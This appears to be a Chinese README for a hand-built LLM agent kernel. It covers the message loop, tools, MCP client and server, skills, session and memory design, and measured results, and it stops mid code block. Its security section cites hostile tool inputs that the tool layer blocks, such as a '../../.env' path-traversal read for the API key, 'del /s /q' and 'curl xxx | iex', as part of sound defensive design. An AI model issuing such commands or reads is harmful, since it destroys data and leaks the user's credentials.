

# mini-agent

**从零实现的 Agent 内核 —— 不使用任何 Agent 框架。**

`messages` 循环、工具协议、MCP client / server、skill 系统全部手写。
不是某个框架的封装层，是内核本身。

| | |
|---|---|
| 内核规模 | 4,500 行（含测试 8,400 行） |
| 测试 | 130 条，含**变异测试**（故意改坏实现，验证断言不是空转） |
| 互操作 | 自建 MCP server 已被 **Cursor** 作为第三方客户端验证通过 |
| 许可 | MIT |

每一处设计决策都写了「为什么」和实测数字 —— 包括**被实测推翻的那些**：
最初认为「接私有数据才有价值」，A/B 实验证明关掉工具模型仍能答对 4/4，
于是判据改成了「模型会不会编造」。

## 五周，五个结论

| 周 | 主题 | 最重要的结论 |
|---|---|---|
| 1 | 让模型开口 | 模型的记忆**就是** `messages` 列表，没有别的 |
| 2 | 让模型动手 | 工具说明书是每轮固定开销；安全必须 fail-closed，不能靠模型自觉 |
| 3 | 记得住、活得下去 | 真值 vs 视图；session 是流水账，memory 是结论 |
| 4 | 从脚本变成项目 | 先装仪表盘再改系统；`async` 救不了同步函数 |
| 5 | MCP 与 skill | 协议适配在边缘；安全边界不够用时**新开窄路，不是放宽旧路** |

> 学习路线图不在本仓库内 —— 这里只放代码和结论。
> 想快速判断它有没有用，直接看下面「它现在能做什么」的三个实跑结果。

## 目录说明

```
mini-agent/
├── pyproject.toml      # 项目定义与依赖清单（uv 读它）
├── .python-version     # 锁定 Python 版本
├── uv.lock             # 依赖锁定，保证换机器环境一致
├── .gitignore          # 含 .env / .venv/ / data/ / MEMORY.md
├── .env.example        # 配置模板（进 Git）
├── .env                # 你的真实 Key（不进 Git，需自己从模板复制）
├── stage0_check.py     # 【阶段 0 交付物】调通一次模型接口
├── start.bat           # 双击启动（纯 ASCII，见「一键启动」）
├── launcher.py         # 启动器的中文界面 / 端口轮询 / 开浏览器
├── LICENSE             # MIT
├── agent/
│   ├── __init__.py
│   ├── llm.py          # 模型调用封装 —— 唯一与厂商耦合的文件
│   ├── loop.py         # 核心循环 —— 记忆、工具轮次、技能注入都在这里
│   ├── session.py      # 【第 3 周】会话持久化（JSONL）
│   ├── context.py      # 【第 3 周】上下文裁剪（token 预算驱动）
│   ├── memory.py       # 【第 3 周】长期记忆（跨会话，防被裁剪）
│   ├── config.py       # 【第 3 周】配置化（把「凭据」与「配置」分开）
│   ├── metrics.py      # 【第 4 周】三段耗时 + token + 错误
│   ├── skills.py       # 【第 5 周】skill 两层渐进披露
│   ├── channels/       # 【第 6 周】渠道层：把「消息从哪来」与内核分开
│   │   ├── __init__.py #   Inbound（含幂等键）+ session_id_for()
│   │   └── wechat.py   #   公众号验签 / XML 解析 / 被动回复（不接个人号）
│   ├── mcp/            # 【第 4 周扩展】手写的 MCP client
│   │   ├── protocol.py #   子进程 + 一行一条 JSON + 队列超时
│   │   ├── client.py   #   握手 / tools/list / tools/call
│   │   ├── tool.py     #   远端工具伪装成本地 Tool
│   │   └── host.py     #   进程级连接池 + 单 server 失败降级
│   └── tools/          # 【第 2 周】工具层
│       ├── __init__.py
│       ├── base.py       # 工具基类 + Schema 生成 + concurrency_safe
│       ├── registry.py   # 注册表 + 自动发现
│       ├── get_time.py   # 工具 1：读系统时间（无副作用）
│       ├── read_file.py  # 工具 2：读项目内文件（必须做路径校验）
│       ├── run_shell.py  # 工具 3：执行只读命令（必须做白名单）
│       ├── fetch_url.py  # 【第 5 周】只读 GET + SSRF 防护（替代 curl）
│       └── load_skill.py # 【第 5 周】按需读 skill 全文
├── skills/             # 【第 5 周】skill 说明书，一个目录一个技能
│   ├── aihot/
│   │   ├── SKILL.md
│   │   └── references/  #   第二层：细节留在 references，用到才读
│   └── news-summary/
│       └── SKILL.md
├── mcp_servers/        # 【第 5 周】自己写的 MCP server（独立进程）
│   ├── protocol.py     #   JSON-RPC over stdio
│   ├── docs_tools.py   #   4 个检索工具
│   ├── build_index.py  #   建 SQLite FTS5 索引
│   └── data/docs.db    #   索引产物（635 个小节）
├── server.py           # 【第 4 周】FastAPI 接口层
├── web/index.html      # 【第 4 周】原生 JS 聊天页（不引 Node 构建链）
├── cli.py              # 命令行入口
├── config.json         # 模型档案 + mcpServers（进 Git —— 它不是秘密）
├── tests/              # 83 条单测
├── docs/review-nanobot.md  # 【第 4 周】对照 nanobot 的复盘
├── data/sessions/      # 会话记录（JSONL，已在 .gitignore 中）
├── MEMORY.md           # 长期记忆（你自己也能编辑，已在 .gitignore 中）
└── .venv/              # 虚拟环境（uv 自动创建，不进 Git）
```

## 快速开始（换台机器照这个走）

```bash
# 1) 装 uv（仅新机器需要，已装可跳过）
powershell -ExecutionPolicy ByPass -c "irm https://astral.sh/uv/install.ps1 | iex"

# 2) 配 Key（仅第一次）
copy .env.example .env        # macOS / Linux 用 cp
# 编辑 .env，把模型接口地址、模型名、API Key 填上

# 3) 一条命令起 Web
uv run mini-agent-server
```

浏览器打开 http://127.0.0.1:8000 。

`uv run` 一件事全干了：读 `pyproject.toml` → 建 `.venv` → 按 `uv.lock` 装依赖 → 执行命令。
**不需要先 `pip install`，也不需要手动激活虚拟环境。**

> 命令是从 `[project.scripts]` 来的，等价于 `uv run python server.py`。
> 好处是换机器不用记「哪个文件是入口」。

### 不想每次敲命令：双击 `start.bat`

Windows 上双击项目根目录的 **`start.bat`** 就行（桌面快捷方式指向它）：

```
双击 → 没环境就自动 uv sync → 起服务 → 端口一通就自动开浏览器
关掉那个黑窗口 = 停止服务
```

它做了三件「不然会让人放弃」的事：

| 情况 | 行为 |
|---|---|
| 第一次运行，没有 `.venv` | 自动 `uv sync`（前提是装了 uv；没装会给出安装地址） |
| 8000 端口已经被占（上次那个窗口还开着） | 不再起第二个，只打开浏览器 |
| 没有 `.env` | **不阻止启动** —— 界面和历史会话照常，只是发消息会报缺 Key |

> 为什么「没 .env 也让你进」：直接拦住的话，用户看到的是一个闪退的窗口，
> 而真正的原因（缺 Key）他看不见。放进去再在发消息时报错，问题才是可定位的。

**这个脚本是可以给别人用的。** 全部路径都从 `%~dp0`（脚本自己所在目录）推出来，
没有一处写死 `D:\WorkBuddy\...`。把整个文件夹拷给别人 → 双击 `start.bat` → 装上 uv 就能跑。

#### 一个必须记住的坑：`.bat` 里不能写 UTF-8 中文

第一版我把中文提示全写进了 `start.bat`，结果是：

```
'─────' 不是内部或外部命令
'env.example' 不是内部或外部命令
'o.' 不是内部或外部命令
```

不是「中文变乱码」这么温和——**整行命令都被撑坏了**。
因为 cmd.exe 是**按字节**解析 `.bat` 的，它用当前代码页（中文 Windows 是 GBK/936）读文件，
UTF-8 的多字节序列里含有被 cmd 当成控制符的字节，一行被切成好几段。

（`chcp 65001` 救不了：它在**第二行才执行**，而解析早就开始了。）

所以现在的分工是：

- **`start.bat` 纯 ASCII** —— 只做「判断环境 / 拉起 Python」
- **`launcher.py`** —— 所有面向人的中文输出、端口检查、开浏览器

顺带一条：`.gitattributes` 里 `* text=auto eol=lf` 会把 `.bat` 也变成 LF，
而 **cmd 对 LF-only 的 `.bat` 在 `goto` / 标签跳转上不可靠**。所以加了两行例外：

```gitattributes
*.bat text eol=crlf
*.cmd text eol=crlf
```

**换机器会踩的两个坑（都在 `config.json` 里）：**

1. `base_url` 必须和你的 Key 是**同一家厂商**。不匹配会报 401「令牌已过期」——
   看着像 Key 过期，其实是拼错了厂商。详见下文「⚠️ 真实踩坑」。
2. `mcpServers.command` 写的是本机 **Windows 绝对路径**。macOS / Linux 上要改成
   `.venv/bin/python`，否则 MCP 连不上 —— 不会崩，只是少了那 4 个工具（单个 server 失败会降级）。

## 它现在能做什么（三个真实跑通的例子）

不是功能列表，是三次实际运行的结果。你 clone 下来应该能复现出同类的回答。

### 1. 查一份本机索引（hello-agents 教程，635 个小节）

```bash
uv run mini-agent --tools
> Hello-Agents 第九章 ContextBuilder 的 GSSC 流水线怎么实现的？
```

真实调用序列（7 次工具调用，10.8s）：

```
1. mcp_helloagents_search_docs({"query": "ContextBuilder"})
2. mcp_helloagents_search_docs({"query": "GSSC 流水线"})
3. mcp_helloagents_get_section({"section_id": 585})
4. mcp_helloagents_get_outline({"chapter": "9"})
5. mcp_helloagents_get_section({"section_id": 587})
6. mcp_helloagents_get_section({"section_id": 589})
7. mcp_helloagents_get_section({"section_id": 588})
```

注意它自己换了一次检索词再搜，然后取一小节试探，觉得不够才拉整章大纲、一次取三节。
**没人教它这个顺序** —— 工具描述里只写了「先 search 找候选，再用 get_section 取全文」。

> ⚠️ **一个反直觉的实测（2026-10-21）**：同一个问题**关掉工具**去问，模型把 GSSC 四个字母也答对了
> —— 这本书是公开的，早在训练数据里。
>
> 但**细节是编的**：它说 Select 阶段「按相关性、时效性、重要性筛选」，
> 而原文是按「相关性×权重 + 新近性×权重」打分、过滤掉 `min_relevance` 以下的项、再贪心填充到 token 预算。
>
> **所以判断「要不要接检索」的判据不是「数据是否私有」，而是「模型会不会编」。**
> 想干净地测「工具到底有没有用」，得用「今天发生了什么」这种**模型不可能见过**的问题（见下一个例子）。

### 2. 看今天的事（实时数据，模型不可能知道）

```bash
uv run mini-agent --tools
> 今天 AI 领域有什么值得关注的进展？要具体消息，带来源。
```

| | 关工具 | 开工具 |
|---|---|---|
| 回答 | 「我的知识截止于 2026 年 2 月，无法提供…」 | 8 条，带来源、分钟级时间戳、原文链接 |
| 耗时 | 3.5s | 15.5s |

模型会自己判断该读哪个技能：先 `load_skill("aihot")` 拿说明书，再 `fetch_url` 抓接口，
最后按说明书规定的格式出中文简报。**没有人告诉它这个顺序，是说明书写的。**

### 3. 本地三件小事

```bash
uv run mini-agent --tools
> 现在几点？把 pyproject.toml 读出来，告诉我项目叫什么。
```

它会连续调 `get_time` + `read_file`，两步完成。这两个工具都被安全边界约束着（见「四层安全边界」）。

## 常用命令

在本目录下执行（PyCharm 用 `Alt + F12` 打开内置 Terminal，它会自动停在本目录）：

```bash
uv add <包名>                    # 装依赖 —— .venv 在这一刻自动出现
uv add --dev <包名>              # 只装开发期用的（如 pytest），不进运行时依赖
uv sync                          # 按 uv.lock 把环境恢复成一致状态
uv run pytest                    # 跑全部单测（83 条）

uv run mini-agent-server         # 第 4 周：起 Web 界面（窗口要一直开着）
uv run mini-agent "你好"          # 单轮提问
uv run mini-agent                # 交互模式（多轮对话）
uv run mini-agent --stream       # 交互模式 + 流式输出
uv run mini-agent --tools        # 【第 2 周】交互模式 + 工具

uv run mini-agent --sessions                    # 【第 3 周】列出最近的会话
uv run mini-agent --resume 20261010-142117      # 恢复指定会话
uv run mini-agent --new-session                 # 强制开新会话
uv run mini-agent --no-compact                  # 【第 3 周】关掉上下文压缩
uv run mini-agent --no-memory                   # 【第 3 周】关掉长期记忆

uv run mini-agent --profiles                    # 【第 3 周】列出配置档案
uv run mini-agent --profile smart "你好"         # 【第 3 周】换一套配置跑

uv run python -m mcp_servers                    # 【第 5 周】起自己的 MCP server（调试用）
uv run python -m mcp_servers.build_index        # 【第 5 周】重建文档索引（数据变了才要跑）
```

> **`-m mcp_servers` 不需要你一直开着。** 它是给 Cursor / Claude Desktop 这类客户端用的工具库，
> 客户端会自己 spawn 一个。你手动跑的那个实例只用于调试，两者互不相干。
> 想看它能不能用，一条命令就够（不用写客户端）：
>
> ```bash
> echo '{"jsonrpc":"2.0","id":1,"method":"initialize","params":{}}' | uv run python -m mcp_servers
> ```

> `uv run python cli.py ...` 和 `uv run mini-agent ...` 完全等价，前者也仍然可用。
> 打包之后推荐用后者 —— 它不依赖「你在哪个目录」。

交互模式内置命令：`/reset` 清空上下文，`/history` 查看消息列表，
`/tokens` 看裁剪是否生效，`/compact` 看压缩统计，
`/memory` 看长期记忆内容，`/remember <内容>` 写一条长期记忆，
`/config` 看当前生效的配置（不显示 Key），`/exit` 退出。

## 第 3 周：上下文裁剪 (context.py)

### 先算一笔账

每轮请求都要把**整个 messages** 重发。设每轮产生 100 token：

| 轮次 | 本轮发送 | 累计 |
|---|---|---|
| 第 1 轮 | 100 | 100 |
| 第 10 轮 | 1,000 | 5,500 |
| 第 50 轮 | 5,000 | **127,500** |

实际只说了 5,000 token 的话，却付了 127,500。**成本是平方级的。**

更要命的是模型有上下文窗口（如 128k）。撞上去不是「贵」，是**直接 HTTP 400，程序当场死**。

### 最关键的认知转变

| | 是什么 | 会被裁吗 |
|---|---|---|
| `self.messages` | **全量真相** —— 要落盘、`/history` 要看全 | **永不删减** |
| `self._view()` | **本次请求的视图**，每次临时算 | 会 |

前 3 周这两个一直是同一个东西，所以可以直接 `llm.chat(self.messages)`。现在必须分开。

**裁剪不是删数据，是「生成一个用于本次请求的视图」。**

### 三个设计决策

1. **双水位线** `KEEP_RECENT=8` / `COMPACT_AT=12`——留 4 条缓冲，避免
   「刚压完立刻又超 → 每轮都压」（每次压缩要花一次模型调用）。
   这两个数是可调参数：对话密度大就调低，需要长记忆就调高。
2. **摘要必须用 `role="system"`**——用 `assistant` 模型会以为这些话是**它自己说的**，
   可能把摘要当承诺去执行。`system` 才是「这是给你的背景资料」。
3. **依赖注入**——`context.py` **不 import llm**。摘要函数 `Summarizer` 由外部传入。
   因为 `llm.py` 是唯一与厂商耦合的文件（铁律）。
   **附带好处**：写单测时传个假函数就行，不用真调 API —— 这正是第 4 周要用的。

### 实测（真对话）

```
第 7 轮  [已压缩上下文] 14 条 → 10 条，约省 33 tokens
第 8 轮  [已压缩上下文] 16 条 → 10 条，约省 54 tokens
```

第 8 轮输入 token **175**（未压缩约 290）。压缩后仍能答对
「你叫旭，正在做狮山大学城改造设计项目」—— 摘要保住了关键信息。

摘要本身长这样（真实输出）：

```
以下是早先对话的摘要（更早的原始内容已省略）：
旭，建筑学大三学生，正在做狮山大学城改造项目设计（用AutoCAD），
同时学习Agent开发（已写到第3周）。讨厌吃香菜。
```

是人话，不是「取每句前 20 字」那种残句 —— 这就是必须用模型来摘要的原因。

## 第 3 周：为什么用 JSONL 而不是 JSON 数组

`data/sessions/20261010-142117.jsonl` 一行一个 JSON 对象：

```
{"type":"session","id":"...","created_at":"...","system":"你是简洁的中文助手..."}
{"type":"message","at":"...","message":{"role":"user","content":"我叫旭"}}
{"type":"message","at":"...","message":{"role":"assistant","content":"已记住，旭。"}}
```

| | JSON 数组 | JSONL（本项目选择） |
|---|---|---|
| 追加一条 | 读全文件 → 追加 → **整个写回** | `mode="a"` **只在末尾追加一行** |
| 中途崩了 | 整个历史一起坏 | 最多丢最后一行 |
| 坏了一行 | 整个文件读不出来 | 跳过那行，继续读 |
| 读的时候 | `json.load` 整个文件 | 逐行 `loads`，可以流式处理 |

**这是数据安全考虑，不是性能考虑。** 思路和 git 的 append-only 日志一样。

每行包一层 `{"type": ...}` 信封，是为了同一文件里以后能混进 `compact`（上下文压缩）、`meta` 之类的行，
读的时候 `if row["type"] == "message"` 就能筛出来 —— 加新类型不用改老文件格式。

### 一个容易想不通的点

文件第 1 行存了 system，磁盘上明明已经有了，为什么 `messages()` 读回时还要**再补一条** `{"role":"system"}`？

因为**模型只认你发给它的 `messages` 列表，它看不到磁盘上的任何文件。**
文件里的 system 是「存档」（给人看的），`self.messages[0]` 的 system 是「现场」（要发给模型的）。
少了这一步，模型仍然记得你说过的话（user/assistant 都在），但它的**身份和说话风格会突然变回默认值**。

## 第 3 周：长期记忆 (memory.py) —— session 记不住的地方

### 一个真实的现象

你 `/resume` 回某个会话，问「我叫什么」，它答不出来。查磁盘发现那次是**全新会话**，
压根没说过名字；而说过名字的是另一个会话。

**这不是 bug，是设计的必然后果。** 而且往深了想还有更麻烦的：

```
就算在同一个会话里 ——
  第 12 条触发压缩 →「我叫旭」这句从**视图**里被压掉
  数据没丢（还在磁盘），但模型看不到
  摘要写得粗糙 → 它就答「你没告诉过我名字」
```

而「用户叫旭」这种东西**永不变**，不该靠每次压缩去赌它有没有被保留。

### session vs memory

| | session（`session.py`） | memory（`memory.py`） |
|---|---|---|
| 是什么 | 原始流水账，每句都记 | 提炼后的结论，只记不变的 |
| 大小 | 大、精确、会长到几万 token | 小、抽象、几十行 |
| 生命周期 | 一次会话 | **跨所有会话**，永远活着 |
| 会被裁剪吗 | 会（`context.py` 压成摘要） | **不会，永远常驻** |
| 存哪 | `data/sessions/*.jsonl` | 项目根 `MEMORY.md` |
| 类比 | 聊天记录 | 给朋友画的「个人档案卡」 |

### 关键设计：注入位置必须在第 1 位

```python
# loop.py
def _inject_memory(self, view):
    return [view[0], self._memory_message, *view[1:]]
    #        ↑ 原始 system      ↑ 长期记忆      ↑ 其余对话
    #        第 0 位            第 1 位          第 2 位起
```

**为什么不能塞到最后？** 因为 `messages` 是**时间正序**的 —— 越靠后越「新」。

- 插在**第 1 位** → 模型理解为「开场时我就被告知的背景资料」✅
- 插在**最后** → 模型理解为「刚刚收到的一条新指令」❌，可能当成本轮任务去执行

长期记忆是**背景**，不是**事件**。另外注意 `*view[1:]` 是解包出的新列表，
`self.messages` 一个字节都没动 —— 和第 3 周学的「真值 vs 视图」是同一件事。

### 实测（3 个独立进程 / 独立会话）

| 场景 | 结果 |
|---|---|
| 会话 A 写入 `- 名字: 旭` → **全新会话 B** 问「我叫什么」 | ✅ 答出「你叫旭」 |
| 关掉 memory 再问同样的问题 | ❌ 答不出（证明起作用的是 memory） |
| 会话 A 说过、但**没写进** `MEMORY.md` 的「建筑学」 | ❌ 跨会话记不住（**边界，预期行为**） |
| 手工往 `MEMORY.md` 补 `- 专业: 建筑学大三` → 第 3 个会话 | ✅ 答出「建筑学专业，大三」 |

第 3 行是这一块最值得记住的事：**`memory.py` 不会自动判断什么值得记住。**
它只提供「读」和「写」两个动作。什么该进档案，目前由你（`/remember` 或手工编辑）决定 ——
nanobot 用 **Dream** 定时任务补上这一步（额外一次模型调用去复盘今天的对话）。

### 边界（避免过度期待）

- ✅ 手工写：你在 `MEMORY.md` 里写一行，下次对话它就知道了
- ✅ 程序追加：`/remember <内容>` 可以写进去
- ❌ 不会自动判断什么值得记住
- ❌ 不是「向量检索」——整份档案每轮都会被注入。所以**别往里塞 5000 字**，
  用 `/memory` 看一眼 `est_tokens` 心里有数

## 加一个新工具要做什么

**只做一件事：在 `agent/tools/` 下新建一个 .py 文件**，里面写 `Tool` 的子类，
填好 `name` / `description` / `parameters` 三个类属性，实现 `run()`。

注册表（`registry.py`）会自动扫描这个目录并收走它，**别处一行都不用改**。

### 到了第 5 周，扩展方式有三种，别选错

| 想做的事 | 用哪种 | 为什么 |
|---|---|---|
| 加一个能力（读文件、发请求、查数据库） | **本地工具** `agent/tools/*.py` | 进程内，零开销 |
| 加一套「怎么做这类活」的流程 | **skill** `skills/<名>/SKILL.md` | 纯文字，改完即生效，不用重启代码 |
| 想让**别的软件**也能用这个能力 | **MCP server** `mcp_servers/` | 独立进程，跨客户端 |

判断口诀：**能力用工具，经验用 skill，给别人用 MCP。**
最常犯的错是把「流程」写成工具 —— 那样模型每加一个流程你都要改一次代码。

## 第 2 周的代价：工具说明书是固定开销

`tools` 字段**每一轮请求都要重发一遍**。实测 1 个工具会让 `prompt_tokens` 从 17 涨到 276。

一次工具调用要发两次请求（先拿 `tool_calls`，回填结果后再拿答案），实测约 714 tokens ——
是普通一问一答的十倍。所以 `max_iterations` 不是可选项。

## 三条必须记住的规则

1. **Key 绝不进代码**：只放在 `.env` 里，`.env` 已在 `.gitignore` 中。
2. **不对公网暴露 Key**：不要把 `.env` 内容贴到任何聊天窗口或截图里。
3. **每次请求都要有上限**：`max_tokens` 管钱，`timeout` 管时间。

## 四层安全边界（第 2 周真正的内容）

工具 `parameters` 里的每个值都是**模型生成的字符串**，不是你敲的。所以工具层必须假设
「每个参数都可能有恶意」。

| 层 | 手段 | 挡住什么 |
|---|---|---|
| 1 | 路径限制在项目目录内（`is_relative_to`） | `read_file("../../.env")` 跑到项目外 |
| 2 | 敏感目标拒绝（`.env` / `.git/` / `.venv/` / `.key`） | `.env` **就在项目里**，第 1 层挡不住 |
| 3 | 命令白名单（不是黑名单） | `del /s /q`、`curl xxx \| iex` |
| 4 | 超时 + 固定工作目录 | 死循环命令、在 `C:\Windows` 里乱跑 |

第 2 层是验收时才补上的 —— 教训是：**第 1 层只回答「能不能出项目」，
不回答「项目里什么是敏感的」**。两个问题要分开想。

## 本项目最该记住的两条默认值原则

1. **fail-closed（默认拒绝）** —— 安全逻辑没写出来就一律拒绝。
   `read_file` 最初的版本是 fail-open 的：校验为空，代码直接落到
   `target = PROJECT_ROOT / path`，模型一句 `read_file("../.env")` 就能读出你的 Key。
2. **白名单优于黑名单** —— 「允许什么」永远列不全（`ALLOWED_COMMANDS` 6 个 vs 危险命令无穷），
   所以只列安全的；反过来关键凭据要有一份显式的 `DENIED_*` 清单。

**还有一条容易忘的**：安全不能依赖模型自觉。实测模型有时会主动拒绝危险请求，
但那只是它「觉得」不安全 —— 万一它觉得安全，工具层就必须自己拦住。

## 一个必须知道的坑：推理模型会「先思考再回答」

本项目用的模型带思考模式，会先产出一段 `reasoning_content`。**思考也算 token，也吃 `max_tokens`。**

症状：偶尔回复是空的。这时先看 `usage` 里的 `reasoning_tokens`，不要把锅甩给代码。

`agent/llm.py` 的 `chat()` 里已经加了针对这个的诊断报错。

## 第 3 周：配置化 (config.py) —— 把「凭据」和「配置」分开

### 做完之后是什么体验

```bash
uv run python cli.py --profiles          # 看有哪些配置档案
uv run python cli.py --profile smart "你好"      # 换一套配置跑，代码一行不改
```

`config.json` 里存着几套预设：

```json
{
  "default": "fast",
  "profiles": {
    "fast":  { "base_url": "...", "model": "deepseek-v4.1-flash", "max_tokens": 2048, "timeout": 60 },
    "smart": { "base_url": "...", "model": "deepseek-v4-pro",     "max_tokens": 8192, "timeout": 90 }
  }
}
```

### 唯一需要真正理解的事

**凭据（Credential）和配置（Config）不是一回事，应该分开放。**

| | 凭据 | 配置 |
|---|---|---|
| 是什么 | 证明「你是谁」 | 描述「怎么干活」 |
| 例子 | API Key | 模型名、超时、max_tokens |
| 属于 | **个人** | **项目** |
| 存哪 | `.env` | `config.json` |
| 进 Git 吗 | **绝不** | **应该进** |

**为什么这个区分重要？** 因为它们的**生命周期不一样**。你换台电脑，凭据要重新配；
但配置是跟着项目走的。混在一个文件里，就会出现两难：

- 把 `.env` 提交 → Key 泄露
- 不提交 → 别人 clone 下来完全不知道该怎么配模型

分开之后两个问题同时解决。这个原则不是我编的 —— 12-Factor App 的第 3 条**就是这一条**。

### 优先级链

```
--profile deepseek      ← 最高。本次启动说了算
LLM_PROFILE 环境变量     ← 次之。可以写进 shell 脚本 / CI
config.json 的 default   ← 兜底
内置常量 DEFAULT_PROFILE ← 最后兜底
```

### 两个细节值得一提

**1. 兜底不是到处都给。** `base_url` / `model` / `max_tokens` / `timeout` 都有兜底值 ——
因为它们错了顶多「效果不好」。但 **API Key 绝不给兜底** —— 它错了是「根本用不了」，
必须让程序在门口就报错。**兜底只该给「有合理默认值」的东西。**

**2. 打印配置时不显示 Key。** `Config.__repr__()` 和 `summary()` 都把 Key 掩码成
`abc123...wxyz`。因为**凭据泄露最常见的路径就是日志** —— 你 `print(config)` 调试一下，
Key 就出现在终端里，然后可能被粘进 issue、截图、聊天记录。

### ⚠️ 真实踩坑：地址、模型名、Key 必须是同一家

骨架交付后第一次跑，直接 401「令牌已过期或验证不正确」。**两个独立的问题**：

| # | 问题 | 现象 |
|---|---|---|
| 1 | `config.json` 的 `base_url` 写的是智谱官方，但 Key 是中转站的 | 401 |
| 2 | `deepseek-v4-flash` 已从中转站下线（改名 `deepseek-v4.1-flash`） | 404 `Model not exist` |

**教训一：三者必须配套。** 配置化把 `base_url` 从 `.env` 搬进 `config.json` 时，
如果用了一个「通用示例地址」，就会和用户实际的 Key 不匹配。
而报错信息是 401 —— **看起来像 Key 过期，实际是拼错了厂商**。误导性极强。

排查手法（值得记住）：用 raw HTTP 直接打一次，看**到底是 401 还是别的**：

```python
httpx.post(base + "/chat/completions",
           headers={"Authorization": "Bearer " + key},
           json={"model": model, "messages": [{"role": "user", "content": "hi"}]})
# 401 → 认证问题（Key / 地址不匹配）
# 404 model_not_found → 认证已过，是模型名不对
# 200 → 通了
```

**拿到 404 而不是 401 是个好消息** —— 说明认证已经通过，Key 是有效的，
只是模型名写错了。这一步能省掉「去后台翻 Key 是不是过期了」的半小时。

还可以先拉一次模型清单，看手上这个 Key 到底能调哪些：

```python
httpx.get(base + "/models", headers={"Authorization": "Bearer " + key}).json()["data"]
```

**教训二：模型名会下线。** `deepseek-v4-flash` 以前能用，现在没了。
所以「配置化」除了方便，还有个隐性价值：**换模型不用改代码，改一行 JSON 就行。**

### 一个「保持接口稳定」的实例

`llm.py` 里的 `load_config()` 被 `chat()` / `stream_chat()` / `make_summarizer()`
三处调用。这次改造它，我**没有改签名也没有改返回值的形状**，只把内部实现换成了
调用 `config.resolve()`。结果：**三个调用方一行都没动。**

这不是偷懒，是刻意的。接口是契约 —— 能不动就不动，改动成本会沿着调用链扩散。

## 第 4 周：接口层、指标、并发、测试

### 顺序上的一个教训：先装仪表盘，再改系统

原计划是「接口层 → 可观测性 → 并发 → 测试」。实际做到一半发现：**接口层做完，Web 端还是调不了工具。**

因为 `run()` / `stream()` 是一问一答，只有 `run_with_tools()` 才带工具循环。
文件名看着齐全，能力其实断链 —— **能力要按调用链逐个核对，不能按文件名想当然。**

而工具一旦接上 Web，立刻多出「一次请求内部调了几次模型、时间花在网络还是本地」这些问题。
答不出来就无法判断改动是好是坏。所以顺序改成：**先装仪表盘，再改系统。**

### 指标为什么必须分段

`agent/metrics.py` 记三段：`prepare` / `model` / `tool`。

本地工具是毫秒级，网络等待是秒级，**差三个数量级，混在一起平均等于没测**。

聚合时有两条纪律，都是踩出来的：

| 问题 | 做法 | 为什么 |
|---|---|---|
| 失败轮要不要计入平均耗时 | **一律排除** | 500 错误只要 0.3s，会把 60s 超时的真实情况掩盖掉 |
| 排除失败轮后分母怎么算 | **也只数成功轮** | 分子排除、分母不排除，平均值会凭空变小 |

另外：空列表返回 `{"turns": 0, "empty": true}`，不返回空 dict —— 让前端能区分「没数据」和「取不到」。

实测收益：慢请求跑了 17.3s 期间，另一个客户端请求 `/api/info` 只用了 **24.4ms**，说明线程池没被堵死。

### 并发：`async` 救不了同步函数

这是最容易想错的一点：

```
工具是同步阻塞函数（读文件、跑命令）
塞进 async def 里，没有 await 点 → 事件循环照样被卡住
→ 必须用线程池
```

实现就三行：

```python
jobs = [partial(self.tools.call, tc.name, tc.parsed_arguments()) for tc in tool_calls]
with ThreadPoolExecutor(max_workers=len(jobs)) as pool:
    return list(pool.map(lambda job: job(), jobs))
```

`pool.map` **保序** —— 这一点比快慢重要得多：

> **慢是可见的，顺序错是不可见的。**
> 结果顺序错了，模型会把 A 的结果当成 B 的，然后基于错误前提继续推理，答得很怪但不报错。

三条设计约束：

1. `Tool.concurrency_safe` 默认 **False**（fail-closed）。代价不对称：猜错「安全」→ 结果随机；猜错「不安全」→ 只是慢。
2. **整批要么全并行、要么全串行**，不挑安全的并行 —— 那会改变工具的意图顺序。
3. `max_workers` 直接用条数。比它小会排队，比它大是白占内存。

实测：两只真实读工具 0.70s → 0.50s（1.4×）。测试用两个各睡 0.4s 的假工具，阈值卡 0.7s。

### 连接池：948.7ms → 1.2ms

`httpx.Client()` 每次新建要 **948.7ms**（大头是 SSLContext 初始化），复用后一次请求 **1.2ms**。

所以 `llm.py` 改成进程级共享 + 懒加载。三个细节：

- `timeout` 仍然每次传（它跟请求走，不跟连接走）
- `keepalive_expiry` 属于 `httpx.Limits`，不属 `Timeout`
- 流式必须用 `client.stream()`；`client.post(stream=True)` 会把整个响应读完再返回

### 流式 + 工具：`tool_calls.arguments` 是碎片

即使开了 `stream=True`，参数也不是一次给全，而是按 `index` 分桶逐片下发：

```
帧1 index=0 id='call_x' name='get_time' args=''
帧2 index=0 id=None     name=None       args='{}'
